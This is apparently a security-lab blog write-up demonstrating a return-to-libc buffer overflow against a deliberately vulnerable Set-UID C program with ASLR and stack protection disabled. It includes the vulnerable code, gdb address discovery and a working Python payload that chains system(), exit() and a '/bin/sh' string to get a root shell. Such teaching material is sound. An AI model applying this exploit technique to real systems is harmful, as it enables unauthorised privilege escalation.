 ```yaml
---
title: "Return-to-libc Attack"
date: 2021-02-01T18:49:41+08:00
draft: false
---
```


To prevent buffer overflow attacks, some operating systems allow the programs to make their stacks non-executable, which means if we jump to the stack and run the shellcode, we will fail. The goal of the following experiments is to utilize the variant of buffer overflow attack -- return-to-libc attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from "/bin/zsh" to "/bin/sh" since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process 
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Vulnerable program 

Here is a vulnerable program called retlib.c. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[12]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep)); 

	printf("ebp value = 0x%.8x\n", (unsigned)framep); 
	printf("buffer address = 0x%.8x\n", (unsigned)buffer); 

	strcpy(buffer, str); 		// buffer overflow
	return 1; 
}

int main(int argc, char** argv)
{
	char input[100]; 
	FILE* badfile; 

	badfile = fopen("badfile", "r"); 
	int len = fread(input, sizeof(char), 100, badfile); 
	printf("input size = %d", len); 

	bof(input); 
	printf("return properly\n"); 

	return 1; 
}
```

Disable ASLR and Stackguard protection, and compile the program into the 32-bit executable. Note that we need to make the stack non-executable, so compile with the flag "-z noexecstack" as follows:

```
$ gcc -m32 -fno-stack-protector -z noexecstack retlib.c -o retlib
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```



## Idea

The idea of the return-to-libc attack is to jump into a function in the library (for example, libc) without running the instruction located in the stack. To get the root privilege of the shell, our goal is to invoke system("/bin/sh"). So the first thing is to find out where is the function system(). We can use gdb debugger to print out the address of the system() as follows. 

![](https://github.com/chuang76/image/blob/master/ch3-13.PNG?raw=true)

Next, we need to figure out where is the string "/bin/sh". One method is to use an environment variable. The reason is that when we execute a program from a shell prompt, the shell actually fork itself and creates a child process to run the program. All the exported environment variables will be *inherited* by the child process. So we can export a self-defined environment variable called "my_shell" which value equals to "/bin/sh" and use a simple program called "prtenv.c" to print out the address. 

```
#include <stdio.h>
#include <stdlib.h>

void main()
{
	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell);
}
```

Compile the program and export the environment variable "my_shell". 

```
$ export my_shell="/bin/sh"
$ gcc -m32 prtenv.c -o prtenv
$ gcc -m32 prtenv.c -o prtaaa
$ gcc -m32 prtenv.c -o prtaaaaa
$ gcc -m32 prtenv.c -g -o prtenv_dbg
```

Here is the result. However, the address of the environment variable is sensitive to the length of the file name. Why? Let's use the debugger to figure out. 

![](https://github.com/chuang76/image/blob/master/ch3-14.PNG?raw=true)

Set a breakpoint at main function and run the program. We can find the address of environment variable with a pointer to pointer [environ](https://man7.org/linux/man-pages/man7/environ.7.html), which points to an array of pointers to strings called the "environment". As you can see, environment variables are located in the stack section. Before environment variables are pushed into the stack, the file name of the program is pushed first. So that's why the address of the environment variable may be affected by the length of the file name. 

```
(gdb) x/100s *((char **)environ)
```

![](https://github.com/chuang76/image/blob/master/ch3-15.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-16.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-17.PNG?raw=true)



## Payload

Run the vulnerable program to find out where should we put the address of system(). That is, the value of ebp - the address of buffer + the size of ebp register =  0xffffd4d8 - 0xffffd4c0 + 4 = 28. 

Here is our payload: replace the return address of strcmp()'s frame as the address of system() and put the argument of system(), i.e., the address of the string "/bin/sh". Note that it is necessary to fill the return address of system()'s frame with the address of exit(), or the program will crash. 

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(100))

shell_addr = 0xffffdf73
system_addr = 0xf7e13420
exit_addr = 0xf7e05f80 

content[28:32] = (system_addr).to_bytes(4, byteorder='little')
content[32:36] = (exit_addr).to_bytes(4, byteorder='little')
content[36:40] = (shell_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

So we can get the root privilege of the shell. 

![](https://github.com/chuang76/image/blob/master/ch3-18.PNG?raw=true)



## Reference

1. Programs, Processes and Memory [[link]](https://www.usna.edu/Users/cs/wcbrown/courses/IC221/classes/L08/Class.html)